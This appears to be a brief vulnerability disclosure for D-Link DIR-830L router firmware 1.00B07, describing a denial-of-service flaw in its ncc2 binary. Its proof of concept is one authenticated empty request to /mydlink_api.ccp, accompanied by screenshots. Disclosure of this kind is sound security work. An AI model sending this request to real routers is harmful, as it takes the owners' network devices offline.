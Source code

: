 # Summary
There is a denial of service vulnerability in `ncc2` binary file of D-Link DIR830LA1_FW100B07.

Fimware download link : https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `callback_ccp_mydlink_api` and `mydlink_api.ccp`.

# Details
```
POST /mydlink_api.ccp
```

Post this packet without any payload will lead to DoS:
![DIR830-DoS](https://github.com/user-attachments/assets/d8178140-0aab-44f9-9302-02886c5252a4)


# PoC
**Login** first to get your cookie.

```
POST /mydlink_api.ccp
```
![DIR830-DoS](https://github.com/user-attachments/assets/d8178140-0aab-44f9-9302-02886c5252a4)
